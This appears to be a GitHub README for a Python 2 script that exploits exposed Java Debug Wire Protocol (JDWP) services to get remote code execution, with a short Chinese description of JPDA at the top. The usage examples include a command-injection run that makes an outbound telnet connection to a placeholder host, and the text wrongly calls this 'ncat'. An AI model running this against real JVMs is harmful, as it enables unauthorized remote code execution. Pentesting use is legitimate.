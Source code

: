 
简要描述：
JPDA(Java Platform Debugger Architecture) 是 Java 平台调试体系结构的缩写，通过 JPDA 提供的 API，开发人员可以方便灵活的搭建 Java 调试应用程序。JPDA 主要由三个部分组成：Java虚拟机工具接口（JVMTI），Java 调试线协议（JDWP），以及 Java 调试接口（JDI）

## What is it ?
This exploitation script is meant to be used by pentesters against active JDWP service, in order to gain Remote Code Execution.


## How does it work ?
Well, in a pretty standard way, the script only requires a Python 2 interpreter:

	% python jdwp.py -h
	usage: jdwp.py [-h] -t IP [-p PORT] [--cmd COMMAND]
	

    Universal exploitation script for JDWP by 老夫开车怕过谁
    optional arguments:
    -h, --help            show this help message and exit
    -t IP, --target IP    Remote target IP (default: None)
    -p PORT, --port PORT  Remote target port (default: 8000)
    --break-on JAVA_METHOD
    Specify full path to method to break on (default:
    	java.net.ServerSocket.accept)
    	--cmd COMMAND         Specify full path to method to break on (default:
    		None)

To target a specific host/port:

	$ python jdwp.py -t my.target.ip -p 1234
	
This command will only inject Java code on the JVM and show some info like Operating System, Java version. Since it does not execute external code/binary, it is totally safe and can be used as Proof-Of-Concept

	$ python jdwp.py -t 100.100.100.100 -p 8001 --cmd "telnet x.x.x.x 66666"
	
This command will actually execute the process `ncat` with the specified argument with the rights given to the running JVM.

Before sending questions, make sure to read http://blog.ioactive.com/2014/04/hacking-java-debug-wire-protocol-or-how.html for full understanding of the JDWP protocol. 







